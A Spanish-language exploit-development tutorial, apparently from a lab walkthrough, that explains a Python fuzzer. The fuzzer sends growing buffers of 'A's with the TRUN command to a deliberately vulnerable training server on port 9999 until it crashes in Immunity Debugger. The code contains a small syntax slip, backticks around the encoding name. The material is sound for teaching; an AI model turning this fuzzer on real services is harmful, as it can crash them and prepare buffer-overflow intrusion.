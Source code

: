 ### Explicación del Script

El script en Python es el siguiente:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100
ip_address = '192.168.0.12'

while True:
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip_address,9999))
        s.send(('TRUN /.:/' + buffer).encode(`utf-8`))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crash en %s bytes " % str(len(buffer)) )
        sys.exit()
```

Este script sigue el siguiente proceso:

1. Se importan los módulos necesarios: **sys**, **socket** (para la conexión) y **sleep** (para añadir pausas entre envíos).
2. Se declara una variable llamada **buffer**, que inicialmente contiene 100 letras "**A**".
3. El script entra en un bucle **while True**, en el que intenta:
- Conectar al servidor vulnerado en la IP y puerto adecuados (9999 para **Voland Server**).
- Enviar el comando vulnerable **TRUN** seguido de un buffer de caracteres "**A**".
- Cerrar la conexión y dormir por un segundo antes de aumentar el tamaño del buffer en 100 caracteres.
- Continuar este proceso hasta que el servidor falle, lo que indicará que se ha producido un desbordamiento de búfer.
4. Cuando el servidor falla, el script imprime el tamaño del buffer que causó el fallo y se cierra.

### Ejecución del Script

Una vez guardado el script en un archivo (por ejemplo, `fuzzing.py`), se le deben otorgar permisos de ejecución con el siguiente comando en **Kali Linux**:

```bash
chmod +x fuzzing.py
```

Luego, se ejecuta el script:

```bash
./fuzzing.py
```

En este punto, Voland Server comenzará a recibir conexiones y datos en incrementos de 100 bytes. El servidor debería fallar rápidamente, y se observará que el programa se detiene en Immunity Debugger.
